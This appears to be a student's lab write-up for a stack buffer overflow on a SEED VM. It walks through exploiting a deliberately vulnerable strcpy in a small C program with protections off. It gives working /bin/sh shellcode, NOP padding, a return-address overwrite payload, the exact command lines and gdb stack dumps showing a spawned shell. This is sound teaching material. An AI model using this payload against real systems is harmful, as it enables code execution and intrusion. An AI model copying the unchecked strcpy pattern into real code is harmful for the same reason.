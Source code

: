 # Lab3 - Buffer overflow attack(turn off ASLR, turn off NX)

## What are we going to do?
This example shows that after calling strcpy function, just exiting the program not returning to the point it was called.
To do that, we need to overwrite the return address exploit the strcpy function.

## Overview of process 
1. Set an address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)
4. Make a payload which include the execution of shell code!!
5. Place the payload as a parameter of the 'ans_check5'.

## Steps in detail
+ Preparation. Compile the c program below like this. 
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
+ gcc option explanation
```
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name
```

+ Step1. Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

+ Step2. Find out where the return address of strcpy function is! This is where brute force method comes in! Try like below changing the number of print count. If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

+ Step3. Run like below. Python code will create meaning-less characters followed by exit return address. That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
  + Think about it. Now we know where the return address of strcpy. If we can overwrite return address to a target program address we want to execute, and then we can execute it!
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

+ Result. 
   + As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

+ Step4. Make a payload. 
  + ‘PAYLOAD’ = '<Aligned Shellcode>'+<Safe padding>+'<BUFFER_START_ADDRESS>'
  + Shellcode: It's a execution of /bin/sh and hexacoded.
  + Safe padding: Need it to reach the return address location
  + BUFFER_START_ADDRESS: Address of a target program. In this case, the start address of 'Aligned Shellcode'
  + In this practice, we turn off ASLR so we surely know where it the start address of our overwrite.
```
Shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
Safe padding: \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
BUFFER_START_ADDRESS: \x6c\xfd\xff\xbf
```

+ Step5. Place the payload as a parameter of the 'ans_check5'.

  + FIRST, I executed on command line and I got another bash shell!!!!
  + SECOND, using gdb, investigate the content of the stack!!
  + I can see the corrupted stack content filled with the malicious code and \x90s and return address which points to the malicious code!!
```
[02/10/22]seed@VM:Byeongchan$ env -i PWD="/home/seed/stack_addresses" SHELL="/bin/bash" SHLVL=0 /home/seed/stack_addresses/ans_check5 $( python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x90'*24 + '\x6c\xfd\xff\xbf'")
ans_buf is at address 0xbffffd6c
$ exit
[02/10/22]seed@VM:Byeongchan$
```
```
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0xb7eeed57
0xbffffd70:	0xffffffff	0x0000002f	0xb7e14dc8	0xb7fd6858
0xbffffd80:	0x00000001	0x00008000	0xb7fba000	0x00000000
0xbffffd90:	0x00000002	0x00800000	0xbffffdb8	0x080485cb
0xbffffda0:	0xbfffff6a	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb) c
Continuing.

Breakpoint 2, 0x0804855b in check_answer (ans=0xbfffff00 "\031")
    at ans_check5.c:12
12	  strcpy(ans_buf, ans);
(gdb) x/32xw $esp
0xbffffd50:	0xbffffd6c	0xbfffff6a	0xbffffd70	0x080482c7
0xbffffd60:	0x00000000	0xbffffe04	0xb7fba000	0x6850c031
0xbffffd70:	0x68732f2f	0x69622f68	0x50e3896e	0x99e18953
0xbffffd80:	0x80cd0bb0	0x90909090	0x90909090	0x90909090
0xbffffd90:	0x90909090	0x90909090	0x90909090	0xbffffd6c
0xbffffda0:	0xbfffff00	0xbffffe64	0xbffffe70	0x08048651
0xbffffdb0:	0xb7fba3dc	0xbffffdd0	0x00000000	0xb7e20637
0xbffffdc0:	0xb7fba000	0xb7fba000	0x00000000	0xb7e20637
(gdb)
```

# ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```


